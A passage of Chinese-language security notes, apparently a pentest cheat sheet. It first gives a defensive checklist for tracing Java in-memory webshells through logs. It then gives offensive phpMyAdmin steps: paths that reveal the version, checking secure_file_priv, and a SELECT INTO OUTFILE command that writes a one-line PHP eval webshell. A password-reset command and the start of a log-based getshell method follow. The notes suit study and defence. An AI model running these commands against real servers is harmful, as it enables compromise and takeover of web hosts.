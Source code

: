 ### 2、Java 内存马排查

通过检测工具或者其他手段发现了一些内存webshell的痕迹，需要有一个排查的思路来进行跟踪分析，也是根据各类型的原理，列出一个排查思路。

· 如果是jsp注入，日志中排查可疑jsp的访问请求。

· 如果是代码执行漏洞，排查中间件的error.log，查看是否有可疑的报错，判断注入时间和方法

· 根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

· 如果是servlet或者spring的controller类型，根据上报的webshell的url查找日志（日志可能被关闭，不一定有），根据url最早访问时间确定被注入时间。

· 如果是filter或者listener类型，可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200

# Phpmyadmin

### 如何查看phpmyadmin版本

直接在phpmyadmin的url后加下面文件路径爆出：

/readme

/changelog

/Change

/changelog.php

/Documetation.html

/Documetation.txt

/translators.html

/doc/html/index.html

### Getshell方法

通过写入getshell

1、查询是否有写入条件：

show VARIABLES like '%secure_file_priv%' == null 则没有条件，换成日志写入 （secure_file_priv值可在mysql中的my.ini中修改）

show global variables like "secure%" 也可以查询

2、当具备条件时，写入一句话文件：

select '<?php eval($_POST["pwd"]); ?>' into outfile 'D:/phpStudy_pro/WWW/shell.php';

3、其他信息收集查询命令：

show variables like '%char%' === 查看系统变量

select @@datadir ==== 系统路径

set PASSWORD=PASSWORD("") ========改登入密码（危害大）

利用日志getshell

1、条件：
